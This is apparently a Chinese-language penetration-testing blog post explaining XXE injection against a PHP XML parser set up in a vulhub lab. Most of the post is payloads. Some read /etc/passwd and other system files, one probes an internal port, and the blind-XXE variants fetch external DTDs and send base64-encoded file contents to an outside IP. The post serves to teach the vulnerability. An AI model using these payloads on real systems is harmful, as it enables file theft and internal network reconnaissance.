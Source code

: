 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x01 示例代码
实验环境：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe?_blank)  
simplexml_load_string.php
```
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
```

### 0x02 判断是否有xxe漏洞
![95](/img/post/20180906-110942.png)

### 0x03 读取文件
* 外部引用读取passwd

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

* 外部引用dtd文件读取passwd

evil.dtd中的内容为：```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY % xxe SYSTEM "http://114.115.183.86/evil.dtd">
  %xxe;
]>
<root>
  <name>&b;</name>
</root>
```

### 0x04 端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY http SYSTEM 'http://10.11.11.20:3306/'>
]>
<root>
  <name>&http;</name>
</root>
```

### 0x05 Blind-XXE
* 方法一：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.dtd">
    %remote;
]>
```
evil.dtd内容：
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/issue">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://114.115.183.86/?%file;'>">
%all;
%send;
```

* 方法二：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %xxe;   <!--执行%xxe，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>
```
evil.xml内容：
```
<!ENTITY % xxe "<!ENTITY send SYSTEM 'http://114.115.183.86/a.php?content=%file;'>">
```


<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691?_blank)
* [https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69?_blank)
